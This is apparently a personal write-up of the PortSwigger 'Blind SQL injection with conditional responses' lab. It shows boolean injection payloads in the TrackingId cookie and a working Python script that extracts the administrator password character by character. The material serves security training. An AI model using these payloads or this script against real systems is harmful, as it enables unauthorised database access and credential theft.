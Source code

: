 # Portswigger  SQLi-Lab 9

## Blind SQL injection with conditional responses

In this lab we have to perform blind sqli in which we won't get to see the query results being reflected on the page instead if the results being retrieved are valid we will only see a response which is a `Welcome Back` message.

<img src="https://i.imgur.com/4DGBvp2.png"/>

Here we don't see any result or error if we try to perfrom sqli on `category` parameter

<img src="https://i.imgur.com/pd1t1HA.png"/>

So as the lab description tells us that application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie, here we can try to perform boolean based sqli

<img src="https://i.imgur.com/2CZccEu.png"/>

To perfrom sqli here think of sql statement to be like this

```sql
SELECT TrackingID From Users Where TrackingID = 'eUTt93JorSymFVXl'
```

Now if we perform boolean based sqli it will look like this

`eUTt93JorSymFVXl' and '1'='1`

```sql
SELECT TrackingID From Users Where TrackingID = 'eUTt93JorSymFVXl' and '1'='1'
```

<img src="https://i.imgur.com/QnwFFcj.png"/>

As we can see we get the welcome back message , let's try to make the condition false and see if it works or not

`eUTt93JorSymFVXl' and '1'='2`

<img src="https://i.imgur.com/WCsmhxx.png"/>

And we don't get a welcome back message as the boolean statement is false so sqli is working here but to retreieve the password of user `administrator` we need to do some guess work using SUBSTRING query to figure out what's the first,second,third upto n number of letters for the password is going to be so doing that manually is going to take a lot of time so I'll try to automate this stuff

```python
#!/usr/bin/env python

import requests
import string

password = []
letters = list(string.ascii_lowercase)
numbers = list(string.digits)

characters = letters + numbers

check_string = 'Welcome back!'

for i in range (1,30):
    for j in characters:
        payload = f"YLcPMggk0FAKuRIF' and substring((select password from users where username = 'administrator'), {i}, 1) = '{j}" 

        cookies = {"TrackingId" : payload, "session": "jo3uVBJjlQOe1MfE862wS1tNfpx9MBXA"}

        r = requests.get ('https://ac301ff31ff099e380dd31b6005600b6.web-security-academy.net/',cookies=cookies)
        print (f"[+] Trying characeter {j} for poisition {i} for password")
        if check_string in r.text:
            password.append(j)
            break
        else:
            print ('It does not contain welcome back')
print (password)            
```

Now I made a mistake before making this script , I needed to test for the length of the password which I didn't but this works anyways , I just ran the loop till 29 poistion of the string , the password was a length of 20 characters

<img src="https://i.imgur.com/G5hKPNB.png"/>

<img src="https://imgur.com/FoOvyKN.png"/>